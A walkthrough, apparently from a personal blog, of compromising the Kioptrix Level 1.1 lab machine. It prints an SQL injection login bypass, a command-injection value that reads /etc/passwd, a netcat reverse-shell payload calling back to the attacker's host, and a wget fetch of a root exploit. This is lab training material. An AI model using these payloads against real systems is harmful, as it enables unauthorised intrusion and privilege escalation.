 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

  Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

  The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

  Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. The attacker finds a login form when he lands on the home page. It appears to be used for administrative purposes. 

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

  The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

  Surprisingly, he was able to display the contents of /etc/passwd for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

  The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

  He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compile the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

